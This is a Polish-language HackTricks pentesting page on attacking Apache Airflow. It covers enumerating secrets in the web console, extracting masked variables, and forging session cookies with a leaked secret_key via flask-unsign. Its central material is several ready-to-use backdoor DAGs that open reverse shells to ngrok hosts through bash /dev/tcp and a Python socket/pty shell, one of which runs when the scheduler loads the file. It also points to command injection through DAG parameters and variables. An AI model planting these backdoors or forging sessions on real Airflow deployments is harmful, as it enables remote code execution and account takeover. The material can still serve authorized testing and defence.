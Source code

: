 # Bezpieczeństwo Apache Airflow

<details>

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępniaj sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## Podstawowe informacje

[**Apache Airflow**](https://airflow.apache.org) służy jako platforma do **orkiestracji i harmonogramowania potoków danych lub prac**. Termin "orkiestracja" w kontekście potoków danych oznacza proces organizowania, koordynowania i zarządzania złożonymi potokami danych pochodzącymi z różnych źródeł. Głównym celem tych zorchestrowanych potoków danych jest dostarczanie przetworzonych i konsumowalnych zbiorów danych. Te zbiory danych są szeroko wykorzystywane przez szereg aplikacji, w tym między innymi narzędzia do analizy biznesowej, modele nauki danych i uczenia maszynowego, które są podstawą działania aplikacji big data.

W skrócie, Apache Airflow pozwoli Ci **harmonogramować wykonanie kodu, gdy coś** (zdarzenie, cron) **się dzieje**.

## Lokalne laboratorium

### Docker-Compose

Możesz użyć **pliku konfiguracyjnego docker-compose z** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) aby uruchomić kompletną środowisko dockerowe Apache Airflow. (Jeśli korzystasz z MacOS, upewnij się, że przypisujesz co najmniej 6GB RAM do maszyny wirtualnej docker).

### Minikube

Jednym prostym sposobem **uruchomienia Apache Airflow** jest uruchomienie go **z minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
## Konfiguracja Airflow

Airflow może przechowywać **informacje poufne** w swojej konfiguracji lub można znaleźć słabe konfiguracje:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

## RBAC Airflow

Zanim zaczniesz atakować Airflow, powinieneś zrozumieć **jak działają uprawnienia**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

## Ataki

### Wyliczanie Konsoli Sieciowej

Jeśli masz **dostęp do konsoli sieciowej**, możesz mieć dostęp do niektórych lub wszystkich następujących informacji:

* **Zmienne** (Tutaj mogą być przechowywane niestandardowe informacje poufne)
* **Połączenia** (Tutaj mogą być przechowywane niestandardowe informacje poufne)
* Dostęp do nich pod adresem `http://<airflow>/connection/list/`
* [**Konfiguracja**](./#airflow-configuration) (Informacje poufne, takie jak **`secret_key`** i hasła, mogą być przechowywane tutaj)
* Lista **użytkowników i ról**
* **Kod każdego DAG** (który może zawierać interesujące informacje)

### Pobieranie Wartości Zmiennych

Zmienne mogą być przechowywane w Airflow, aby **DAGi** mogły **uzyskać** do nich dostęp. Jest to podobne do tajemnic innych platform. Jeśli masz **wystarczające uprawnienia**, możesz uzyskać do nich dostęp w interfejsie graficznym pod adresem `http://<airflow>/variable/list/`.\
Domyślnie Airflow pokaże wartość zmiennej w interfejsie graficznym, jednak zgodnie z [**tym**](https://marclamberti.com/blog/variables-with-apache-airflow/) istnieje możliwość ustawienia **listy zmiennych**, których **wartość** będzie wyświetlana jako **gwiazdki** w **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Jednak te **wartości** mogą być nadal **pobrane** za pomocą **CLI** (musisz mieć dostęp do bazy danych), wykonania **arbitralnego DAGa**, dostępu do **API** poprzez dostęp do punktu końcowego zmiennych (API musi być aktywowane) i **nawet samego interfejsu graficznego!**\
Aby uzyskać te wartości z GUI, po prostu **wybierz zmienne**, do których chcesz uzyskać dostęp, i **kliknij Akcje -> Eksport**.\
Innym sposobem jest wykonanie **bruteforce** do **ukrytej wartości**, korzystając z **filtracji wyszukiwania**, aż ją znajdziesz:

![](<../../.gitbook/assets/image (152).png>)

### Eskalacja Uprawnień

Jeśli konfiguracja **`expose_config`** jest ustawiona na **True**, od roli **Użytkownik** i **wyżej** mogą **odczytać** konfigurację w sieci. W tej konfiguracji pojawia się **`secret_key`**, co oznacza, że każdy użytkownik z tą ważną wartością może **utworzyć własne podpisane ciasteczko, aby podszyć się pod dowolne inne konto użytkownika**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
### Tylnie drzwi DAG (RCE w Airflow worker)

Jeśli masz **dostęp do zapisu** w miejscu, gdzie **są zapisywane DAGi**, możesz po prostu **utworzyć taki**, który wyśle do Ciebie **odwrotną powłokę**.\
Zauważ, że ta odwrotna powłoka zostanie wykonana wewnątrz kontenera **airflow worker**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
### Tylnie drzwi DAG (RCE w harmonogramie Airflow)

Jeśli ustawisz coś do **wykonania w głównym katalogu kodu**, w chwili pisania tego poradnika, zostanie to **wykonane przez harmonogram** po kilku sekundach od umieszczenia go wewnątrz folderu DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
### Tworzenie DAG

Jeśli uda ci się **skompromitować maszynę w klastrze DAG**, możesz tworzyć nowe **skrypty DAG** w folderze `dags/`, a następnie zostaną one **skopiowane do reszty maszyn** w klastrze DAG.

### Wstrzykiwanie Kodu DAG

Podczas wykonywania DAG z interfejsu graficznego, możesz **przekazywać do niego argumenty**.\
Dlatego, jeśli DAG nie jest poprawnie napisany, może być **podatny na Wstrzykiwanie Poleceń.**\
Tak właśnie stało się w przypadku tego CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Wszystko, co musisz wiedzieć, aby **rozpocząć poszukiwania wstrzykiwania poleceń w DAG**, to to, że **parametry** są **odczytywane** za pomocą kodu **`dag_run.conf.get("nazwa_parametru")`**.

Co więcej, ta sama podatność może wystąpić w przypadku **zmiennych** (zauważ, że posiadając wystarczające uprawnienia, możesz **kontrolować wartość zmiennych** w interfejsie graficznym). Zmienne są **odczytywane za pomocą**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Jeśli są używane na przykład wewnątrz polecenia bash, można przeprowadzić wstrzyknięcie poleceń.

<details>

{% hint style="success" %}
Dowiedz się i praktykuj Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i praktykuj Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępnij sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
